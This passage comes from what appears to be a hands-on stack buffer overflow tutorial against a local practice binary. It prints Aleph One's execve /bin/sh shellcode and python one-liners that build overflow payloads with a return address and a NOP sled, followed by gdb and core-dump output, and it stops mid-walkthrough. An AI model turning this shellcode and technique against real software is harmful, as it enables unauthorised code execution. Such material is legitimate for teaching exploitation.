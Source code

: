 Aleph One's Shell code from phrack magazine

    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"

Putting it all together

    root@local:~/Desktop/Stack# python -c 'print "A"*24+"\x48\xd6\xff\xff"+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > payload_0.txt

Run with shellcode

    gdb-peda$ r < payload_0.txt
    Starting program: /root/Desktop/Stack/stack_0 < payload_0.txt
    AAAAAAAAAAAAAAAAAAAAAAAAH▒▒▒▒^▒1▒F▒F
    ▒
     ▒▒▒V
    1ۉ▒@̀▒▒▒▒▒/bin/sh
    
    process 18890 is executing new program: /bin/dash
    [Inferior 1 (process 18890) exited normally]
    Warning: not running or target is remote
We spawn a shell inside gdb right? What about outside of the gdb?

    root@local:~/Desktop/Stack# cat payload_0.txt | ./stack_0
    AAAAAAAAAAAAAAAAAAAAAAAAH▒▒▒▒^▒1▒F▒F
    ▒
     ▒▒▒V
    1ۉ▒@̀▒▒▒▒▒/bin/sh
    
    Segmentation fault
**NOP Trick for shellcode reliable**
We will add \x90 * 40 

we need to edit our eip 

ffffd648+0x14 (20) = ffffd65c

New payload

    root@local:~/Desktop/Stack# python -c 'print "A"*24+"\x5c\xd6\xff\xff"+"\x90"*40+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > payload_0.txt

Not work again :-( 
Let's analyze core dump with gdb for why?

**Analyze core dump file**
`ulimit -c unlimited`
When we run payload again , core file dumped.

    root@local:~/Desktop/Stack# cat payload_0.txt | ./stack_0
    AAAAAAAAAAAAAAAAAAAAAAAA\▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒^▒1▒F▒F
    ▒
     ▒▒▒V
    1ۉ▒@▒
    Segmentation fault (core dumped)
launch gdb with core file
